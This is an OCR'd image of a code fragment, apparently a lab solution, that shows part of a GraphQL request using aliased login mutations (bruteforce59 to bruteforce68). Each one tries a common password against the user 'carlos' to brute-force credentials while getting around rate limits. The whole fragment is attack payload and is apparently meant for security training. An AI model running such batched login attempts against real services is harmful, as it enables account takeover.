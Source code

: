 ```plain
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }
```